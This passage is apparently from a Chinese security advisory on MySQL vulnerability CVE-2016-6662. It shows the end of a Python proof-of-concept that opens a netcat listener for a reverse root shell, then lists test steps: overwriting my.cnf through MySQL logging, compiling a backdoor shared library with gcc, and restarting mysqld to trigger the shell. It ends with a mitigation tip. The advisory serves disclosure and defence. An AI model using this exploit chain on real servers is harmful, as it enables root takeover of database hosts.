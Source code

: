 ```
print ""
myconfig = cursor.fetchall()
print myconfig[0][0]
info("Looks messy? Have no fear, the preloaded lib mysql_hookandroot_lib.so will clean up all the mess before mysqld daemon even reads it :)")
# Spawn a Shell listener using netcat on 6033 (inverted 3306 mysql port so easy to remember ;)
info("Everything is set up and ready. Spawning netcat listener and waiting for MySQL daemon to get restarted to get our rootshell... :)" )
listener = subprocess.Popen(args=["/bin/nc", "-lvp","6033"])
listener.communicate()
print ""
# Show config again after all the action is done
info("Shell closed. Hope you had fun. ")
# Mission complete, but just for now... Stay tuned :)
info("""Stay tuned for the CVE-2016-6663 advisory and/or a complete PoC that can craft a new valid my.cnf (i.e no writable my.cnf required) ;)""")
# Shutdown
shutdown(0)
```

**对CVE-2016-6662的简单测试**

****

1.修改my.cnf的权限，让mysql用户可写

[![](https://p2.ssl.qhimg.com/t011a807601a6008521.png)](https://p2.ssl.qhimg.com/t011a807601a6008521.png)

2.通过mysql logging　覆写文件

[![](https://p5.ssl.qhimg.com/t01942310e775d27e49.png)](https://p5.ssl.qhimg.com/t01942310e775d27e49.png)

3.放置后门程序



```
gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.c.so mysql_hookandroot_lib.c.c -ldl
```

[![](https://p3.ssl.qhimg.com/t01f00c2fbc5db7c587.png)](https://p3.ssl.qhimg.com/t01f00c2fbc5db7c587.png)

<br>

4.重启触发反弹

[![](https://p2.ssl.qhimg.com/t01107e946d18b09f1a.png)](https://p2.ssl.qhimg.com/t01107e946d18b09f1a.png)

**<br>**

**修复办法：**

**0day漏洞，目前尚无补丁，请持续关注安全客最新报道！**

**临时修复建议：不要给远程用户SUPER或者FILE权限 （2016/09/12 23:03 更新）**
